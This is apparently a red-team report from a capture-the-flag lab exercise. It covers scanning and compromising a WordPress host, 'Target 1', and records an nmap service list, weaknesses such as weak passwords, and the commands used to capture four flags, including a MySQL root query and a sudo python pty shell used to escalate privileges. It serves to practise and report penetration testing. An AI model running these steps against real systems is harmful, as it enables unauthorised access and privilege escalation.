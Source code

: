 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... -sV -oN namp_scan.txt 192.168.1.0/24
```
[NMAP Scan Output](/Doc/nmap_scan.txt)

This scan identifies the services below as potential points of entry:
- Target 1
  - Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    - Port 22 OpenSSH 6.7p1
    - Port 80 HTTP Apache httpd 2.4.10 (Debian)
    - Port 111 RPCBind 2-4 (RPC #1000000)
    - Port 139 NetBios-SSN Samba smb 3.X - 4.X (workgroup: Workgroup)
    - Port 445 NetBios-SSN Samba smb 3.X - 4.X (workgroup: Workgroup)


The following vulnerabilities were identified on each target:
- Target 1
  - Word Press Enumartion
    - [Scan Output](Doc/wp-scan.txt)
  - Brute Force
  - Weak and Insecure Passwords


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1{b9bbcb33e11b80be759c4e844862482d}`:
```
cd /var/www/html 
grep -r flag 
```
  - `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`: 
```
cd /var/www
cat flag.txt
```
  - `flag3{afc01ab56b50591e7dccf93122770cd2}`: 
```
mysql -u root -p
use wordpress
select * from wp_posts
```
  - `flag4{715dea6c055b9fe3337544932f2941ce}`: 
```
ssh steven@192.168.110
sudo python -c 'import pty;pty.spawn("/bin/bash");'
```